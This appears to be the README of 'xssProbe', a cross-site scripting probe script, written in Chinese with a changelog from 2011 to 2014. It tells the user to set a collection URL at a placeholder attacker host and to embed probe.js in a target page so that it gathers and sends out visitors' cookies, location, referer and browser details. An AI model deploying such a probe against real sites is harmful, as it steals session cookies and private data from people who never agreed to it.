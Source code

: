 #xssProbe

xss探针脚本，用于获取被跨页面的通用数据。

##使用说明：

1. 修改probe.js：
// 获取隐私信息的服务端页面，这里需配置为自己的probe.php网址
HTTP_SERVER = "http://www.hacker.com/xssprobe/probe.php?c=";

2. 在目标页面嵌入probe.js文件，可以参考demo.html（xssprobe demo page）:)

by evilcos@gmail.com

##ChangeLog

### 2011/8/22

  v1 能获取的数据如下：
  
    
> browser, ua, lang, referer, location, topLocation, cookie, domain, title, screen, flash

###2013/12/11

  * 重构代码方便代码压缩
  * 增加对常见js框架（jQuer, ExtJS, dojo, YUI, Prototype等）的版本探测

###2014/04/20

  * 彻底修复 Flash 插件版本探测的问题